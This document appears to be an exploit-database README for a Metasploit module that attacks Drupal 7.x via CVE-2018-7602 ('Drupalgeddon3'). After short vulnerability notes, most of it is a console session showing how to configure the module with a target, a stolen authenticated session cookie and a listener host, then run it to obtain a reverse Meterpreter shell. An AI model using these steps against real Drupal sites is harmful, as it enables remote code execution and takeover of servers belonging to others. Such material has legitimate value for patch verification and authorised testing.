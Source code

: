 # Drupal < 7.58 - 'Drupalgeddon3' Authenticated Remote Code Execution (Metasploit)
Author:
- [SixP4ck3r](https://twitter.com/sixp4ck3r)

Notes:
- CVE-2018-7602 / SA-CORE-2018-004
- A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x.
This potentially allows attackers to exploit multiple attack vectors on a Drupal site
Which could result in the site being compromised.
This vulnerability is related to Drupal core - Highly critical - Remote Code Execution

### Example Metasploit
<img src='https://i.imgur.com/9qRHfZ7.png'/>


### Output Metasploit
```bash
six@ub:/opt/metasploit-framework$ ./msfconsole 
[-] ***rting the Metasploit Framework console...|
[-] * WARNING: No database support: No database YAML file
[-] ***
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v5.0.0-dev-8164379                   ]
+ -- --=[ 1758 exploits - 1006 auxiliary - 306 post       ]
+ -- --=[ 536 payloads - 41 encoders - 10 nops            ]
+ -- --=[ ** This is Metasploit 5 development branch **   ]

msf5 > use unix/webapp/drupal_drupalgeddon3
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set RHOST 192.168.1.200
RHOST => 192.168.1.200
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set DRUPAL_SESSION SESSad4467153480b84038526cd43a9ce852=AYyCoZ07NvaDObWxYYEfAOJKETi2atRdEU0B6yEBiRI
DRUPAL_SESSION => SESSad4467153480b84038526cd43a9ce852=AYyCoZ07NvaDObWxYYEfAOJKETi2atRdEU0B6yEBiRI
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set DRUPAL_NODE 3
DRUPAL_NODE => 3
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > set LHOST 192.168.1.200
LHOST => 192.168.1.200
msf5 exploit(unix/webapp/drupal_drupalgeddon3) > exploit

[*] Started reverse TCP handler on 192.168.1.200:4444 
[*] Token Form -> u73s2UzA1B056tdlItiAfpeolb5OVwLGEF5EAFH0bJY
[*] Token Form_build_id -> form-FtN_yMsgJI9GlviMbemIkYxgJ97xsUZ7Lg2hOtW1IlI
[*] Sending stage (37775 bytes) to 192.168.1.200
[*] Meterpreter session 1 opened (192.168.1.200:4444 -> 192.168.1.200:60156) at 2018-04-29 15:04:33 -0400

meterpreter > 
```
